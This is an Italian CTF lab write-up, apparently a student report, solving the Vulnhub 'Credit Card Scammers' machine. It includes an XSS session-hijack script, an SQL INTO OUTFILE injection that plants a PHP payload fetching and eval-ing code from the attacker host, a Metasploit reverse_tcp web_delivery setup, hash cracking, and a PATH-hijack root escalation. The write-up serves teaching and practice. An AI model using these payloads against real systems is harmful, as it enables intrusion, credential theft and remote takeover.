








# Report Cybersecurity
</br>

## Introduzione


La demo consiste nella risoluzione di una challenge Catch The Flag (CTF) di [Vulnhub](https://www.vulnhub.com/entry/credit-card-scammers-1,479/).

L'obiettivo è quello di ottenere privilegi root su una macchina virtuale Linux preconfigurata, cercando 3 flag durante il percorso. Lo scenario è quello di una rete popolata da sole due macchine, quella attaccante (Kali Linux) e quella obiettivo. L'attaccante può comunicare direttamente con l'obiettivo e ha a disposizione software utili per sfruttarne le vulnerabilità.

NOTA: La risoluzione è stata condotta seguento il [writeup](https://www.bootlesshacker.com/credit-card-scammers-ctf-walkthrough/)  creato dall'autore della macchina virtuale. In alcuni punti, l'esecuzione è stata condotta seguendo un ordine leggermente diverso.
Per la comprensione di comandi e script usati sono state consultate diverse risorse online, tra cui anche ChatGPT. 

I principali passi per la risoluzione consistono in:

- Ricognizione rete ed enumerazione servizi
- Session hijacking tramite XSS injection
- Ottenimento reverse shell con meterpreter
- Privilege escalation

</br>


## Ricognizione ed enumerazione

Per prima cosa è necessario scansionare rete in modo da identificare l'indirizzo ip della macchina obiettivo. Tra i vari software disponibili, è stato scelto di utilizzare [nmap](https://www.kali.org/tools/nmap/), tramite cui, con opzioni appropriate, è possibile rilvare direttamente anche i servizi disponibili sui nodi trovati.
<p align="center">

</p>

La porta 80 della macchina obiettivo risulta aperta per un web server. È possibile visitare il sito web ospitato, che risulta essere adibito alla vendita di prodotti medici. 

</br>

## Session hijacking

Sul sito, selezionando uno dei prodotti sul catalogo, è possibile compilare dei form per effettuarne l'ordine. Tali form potrebbero essere vulnerabili ad attacchi di tipo Cross-Site Scripting (XSS), che di solito consistono nell'injection di codice tramite input da webapp il cui contenuto non viene opportunamente validato o sanato: il codice malevolo viene inviato a un utente lato server, che lo mette ignaramente in esecuzione.

L'assunzione che viene fatta in questo scenario è la seguente: gli ordini effettuati vengono revisionati da un utente gestore del server, il quale dovrebbe avere su di esso privilegi amministrativi. L'idea è quindi quella di iniettare in uno dei form del codice per ottenere l'id di sessione dell'amministratore per poi impersonarlo (*session hijacking*). Il codice malevolo andrà in esecuzione non appena l'ordine fittizio verrà esaminato.

Il codice da iniettare è il seguente:

```javascript
<script>
document.write('');
</script>
```

Lo script crea una pagina html in cui viene inserita un'immagine di dimensione nulla: per come è costruito l'url, alla macchina attaccante viene richiesta una risorsa il cui nome corrisponde al cookie di sessione del'amministratore. Quando il browser dell'amministratore apre l'ordine fittizio da revisionare, esso invia la richiesta per ottenere la risorsa a un server sulla macchina attaccante. 

Stando a [questa categorizzazione](https://owasp.org/www-community/attacks/xss/), quello in questione è un attacco XSS di tipo reflected, in cui il contenuto dell'injection viene direttamente eseguito sul web server obiettivo e non viene memorizzato (come invece accade negli attacchi XSS di tipo stored, che sono infatti caratterizzati da persistenza). 

In modo che la macchina attaccante possa accettare la richiesta del webserver è necessario avviare un server:

```bash
python -m http.server 80 
```

Poco dopo l'injection, dal log del server è visibile la richiesta per l'immagine dello script, in cui è esposto il cookie di sessione dell'amministratore. 

Si può notare che questa injection è categorizzabile come remota, senza autenticazione ma che per la realizzazione effettiva richiede un'azione da parte di un utente lato webserver.

<p align="center">

</p>

Per capire dove sfruttare il cookie di sessione è opportuno scansionare le directory del web server in cerca di aree riservate agli amministratori. Per fare ciò si può usare [dirb](https://www.kali.org/tools/dirb/), un fuzzing tool che, dato un dizionario di nomi di file e directory comuni, invia richieste al server con tali nomi in modo da trovare risorse non puntate direttamente da dei link.

Tra i le varie directory trovate, risalta quella ```/_admin```. Visitandola, si apre una pagina con dei link a delle subdirectory. Visitando il link alla directory ```dist/```, si accede a un pannello di login per l'area amministrativa. 

Non essendo in possesso di credenziali, si può impersonare l'amministratore del webserver usando il cookie di sessione ottenuto al passo precedente. Per intercettare e modificare la richiesta in uscita dal browser è stato scelto di usare il proxy [burp](https://www.kali.org/tools/burpsuite/).

<p align="center">

</p>

</br>

## Reverse shell

Valorizzando opportunamente il campo ```Cookie``` e inoltrando la richiesta, si accede al pannello amministrativo, in cui sono visibili gli ordini di altri clienti. In un submenu è presente un link denominato ```database admin```, che porta a una pagina interattiva tramite cui interagire con il database del negozio. Il form permette solamente di inserire o rimuovere dati, non di interrogare il database. È importante notare che l'interazione con il database è diretta, non mediata da prepared statement e stored procedures, il che rende il webserver potenzialmente vulnerabile a SQL injection.

In SQL è possibile scrivere l'output di una query in un file specificato: ammesso che l'utente del database abbia i privilegi necessari, è possibile farlo anche all'interno del webserver. Si può dunque tentare di effettuare injection di codice tramite la query SQL. La query test, con payload php, è la seguente:

```SQL
SELECT "<?php phpinfo(); ?>" INTO OUTFILE '/var/www/html/phpinfo.php'
```

Il comando ```SELECT``` genera come output il codice nel payload, ```INTO OUTFILE``` invece scrive tale output nel file specificato di seguito. Il path ```/var/www/html/phpinfo.php``` è tra quelli di default più comuni usati dai webserver. Quando aperto su browser, il codice viene eseguito. La funzione ```phpinfo()``` restituisce informazioni sul webserver. 

Il fatto che la pagina generata dal file ```phpinfo.php``` risulta visitabile indica che l'injection è andata a buon fine.

Per sfruttare questa vulnerabilità al meglio, il payload php della SQL injection può essere sostituito con uno che genera una reverse shell sul webserver, in modo da ottenere accesso alla macchina obiettivo. Tale payload può essere facilmente generato usando meterpreter, parte del framework [Metasploit](https://www.kali.org/tools/metasploit-framework/).

I comandi e parametri per la creazione del payload sono i seguenti:

```
sudo msfconsole
   use exploit/multi/script/web_delivery
   set target PHP
   set payload php/meterpreter/reverse_tcp
   set LHOST 192.168.56.1
   set LPORT 53
   set SRVPORT 443
   run
```

dove ```LHOST``` e ```LPORT``` sono rispettivamente indirizzo ip e porta su cui sta in ascolto la macchina attaccante, ```SRVPORT``` invece è la porta usata dal server Metasploit per servire il payload meterpreter. Le porte usate sono quelle più comuni, in modo da evitare l'interferenza di firewall.

Il payload generato è il seguente:

```php
php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.56.1:443/QDtxspMboNPbjD', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"
```

Inserendo la porzione tra virgolette in una query SQL, si ottiene il codice da iniettare nel form:

```php
SELECT "<?php eval(file_get_contents('http://192.168.56.1:443/QDtxspMboNPbjD', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]]))); ?>" INTO OUTFILE '/var/www/html/shell.php'
```


La funzione ```eval()``` valorizza la stringa in argomento come codice php. In questo caso, ad essere valorizzato è il contenuto del file ottenuto e convertito in stringa tramite la funzione ```file_get_contents()```.  Quest'ultima ha come argomento un URL, il cui host è la macchina attaccante; il file specificato viene servito da Metasploit e contiene il codice malevolo per la creazione della reverse shell. Le opzioni aggiuntive servono per disattivare la verifica del certificato SSL.

Il codice iniettato viene scritto su un file nel filesystem del webserver, sul quale entra in esecuzione una volta aperto dall'attaccante tramite browser.

Questa injection è differente da quella al passo precedente, in quanto, pur essendo remota, necessita di autenticazione (effettuata tramite cookie di sessione) ma non di un'azione da parte di un utente lato webserver.

A questo punto, su Metasploit viene aperta una sessione tramite cui si può interagire con la macchina obiettivo. 

<p align="center">

</p>

Per ottenere una shell interattiva si usano i seguenti comandi: 

```
shell
python2.7 -c 'import pty; pty.spawn("/bin/bash")'
```

Meterpreter permetterebbe di interagire con la macchina obiettivo senza generare nuovi processi: lanciare una shell ha come effetto quello di generare un nuovo processo, che in uno scenario reale potrebbe rendere l'attaccante più facilmente rilevabile.

</br>

## Privilege Escalation

Con il comando ```whoami```, si può vedere che si sta impersonando l'account di nome apache. Inoltre nella directory corrente, ```/var/www/html```, si trova il primo flag. 

Nella stessa directory è presente una directory ```settings```, contenente il file ```config.php```. Al suo interno ci sono le infomazioni del database per la gestione degli ordini del negozio, denominato ```orders```, tra cui anche la password in chiaro per accedervi. 

<p align="center">

</p>

Nel database ci sono due tabelle, ```orders``` e ```users```. La seconda tabella contiene le credenziali di due account.

<p align="center">

</p>

Le password sono salvate come hash (in formato bcrypt). Può essere utile copiarle in un file sulla macchina attaccante per effettuarne il cracking in un secondo momento.

Uscendo dal database e navigando alla directory ```/home```, si vede che è presente la home anche di un altro account, *moneygrabber*, il cui nome assomiglia a uno dei due trovati nel database, *m0n3y6r4bb3r*. 

Vista la possibilità che password di account locale e di utente del database coincidano, si procede con il cracking della password di m0n3y6r4bb3r. Per fare ciò è stato scelto il tool [John the Ripper](https://www.kali.org/tools/john/), prenistallato nella macchina attaccante. Il comando è il seguente: 

```bash
john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt /home/matteo/Downloads/tocrack.txt
```

dove sono specificati il formato dell'hash, la wordlist da usare e il file contentente il singolo hash da forzare. 

La password risulta essere **delta1** e, tendando l'accesso, si rivela essere la stessa dell'account locale. In ```/home/moneyrabber``` si trova il secondo flag.

Nella home di moneybgrabber è presente anche il file ```backup.sh```, il cui proprietario è root:

```bash
#!/bin/bash
tar -cf mysql.tar /var/lib/mysql
sleep 30
```

Lo script non è modficabile dall'account attuale. Al suo interno però viene chiamato il comando ```tar```, che serve per la compressione/decompressione di file. È importante notare che il comando viene chiamato direttamente, senza che sia specificato il path dell'eseguibile. In Linux, se il path di un eseguibile non è specificato, il sistema operativo cerca il relativo eseguibile tra quelli inseriti nella variabile d'ambiente ```$PATH```, una lista ordinata di directory separate dal carattere ' : '.

Il primo passo chiave è il seguente: aggiungere una entry al contenuto di ```$PATH```, ovvero una directory che contiene un nuovo esegubile ```tar``` che, anziché eseguire la compressione di un file, generi una shell. È fondamentale che il nuovo path sia inserito al primo posto nella lista, in modo che il sistema operativo lo veda per primo. Si può notare che se il contenuto di ```$PATH``` venisse sovrascritto completamente, gli eseguibili dei comandi Linux usati da terminale non sarebbero più trovati e sarebbe necessario digitare i path completi ogni volta. 

Il contenuto di ```$PATH``` è sovrascrivibile con il comando seguente:

```bash
export PATH=/tmp:/home/moneygrabber/.local/bin:/home/moneygrabber/bin:/usr/local/bin:/usr/bin
```

dove la prima directory è quella scelta per contenere l'eseguibile malevolo, generabile con i seguenti comandi:

```bash
cd /tmp
echo "/bin/bash" > tar
chmod +x tar
```

Per generare una shell con privilegi root, è necessario eseguire ```backup.sh``` con i medesimi privilegi. Non conoscendo la password, servirebbe che su ```backup.sh``` fosse impostato il bit SUID, che permetterebbe di lanciare lo script con privilegi di root in quanto proprietario del file.

Si procede dunque trovando tutti gli eseguibili con impostato il bit SUID per poi individuarne uno che chiama lo script ```backup.sh``` e lanciarlo. Il comando per listare gli eseguibili di interesse è il seguente:

```bash
find / -perm -u=s -type f 2>/dev/null
```

Nell'output compare l'eseguibile ```/usr/bin/backup```. Per vederne il contenuto si può usare il comando ```strings```, che restituisce stringhe di caratteri da file non di testo. Si vede che ```backup.sh``` viene chiamato in ```backup```.

<p align="center">

</p>

 Ora basta eseguire ```backup``` per ottenere una shell con privilegi root. Accedendo alla directory ```/root``` si ottiene il terzo flag.

<p align="center">

</p>